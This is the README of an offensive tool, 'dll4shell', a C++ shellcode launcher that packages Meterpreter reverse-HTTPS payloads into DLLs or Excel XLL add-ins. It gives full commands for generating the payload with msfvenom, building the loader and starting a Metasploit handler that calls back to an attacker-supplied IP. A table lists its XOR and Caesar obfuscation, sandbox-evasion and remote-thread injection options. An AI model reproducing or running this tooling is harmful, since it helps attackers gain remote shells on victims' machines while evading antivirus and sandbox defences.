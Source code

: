 ### C++ shellcode launcher

A collection of DLL wrappers around various shellcode injection and obfuscation techniques. Based on the [charlotte](https://github.com/9emin1/charlotte) tool.

### Execution steps
```
git clone https://github.com/cepxeo/dll4shell && cd dll4shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=YOUR_IP LPORT=443 EXITFUNC=thread -f raw -e x64/xor_dynamic -a x64 -o beacon.bin

sudo apt install mingw-w64

python dll4shell.py -e xor -o dll

sudo msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_https; set LHOST YOUR_IP; set LPORT 8443; exploit"
```

Techniques used (`-e` parameter):

|Value           |Obfuscation method, Details    |Injection type               |Code invocation              |
|----------------|-------------------------------|-----------------------------|-----------------------------|
|xor             |XOR                            |Local | VirtualAlloc, CreateThread   |
|xor1            |XOR, sandbox evasion           |Remote | VirtualAllocEx, CreateRemoteThread|
|xor2            |XOR, sandbox evasion           |Local  | hHeapAlloc, hCreateThread    |
|shift           |Cezar                          |Local  | VirtualAlloc, CreateThread   |
|shift1          |Cezar, sandbox evasion         |Remote  | VirtualAllocEx, CreateRemoteThread   |

Outputs (`-o` parameter):

|Value          |Details                        |
|---------------|-------------------------------|
|dll            |DLL callable via rundll32|
|xll            |XLL callable via Add-Ins|
|payload        |save encrypted payload only|
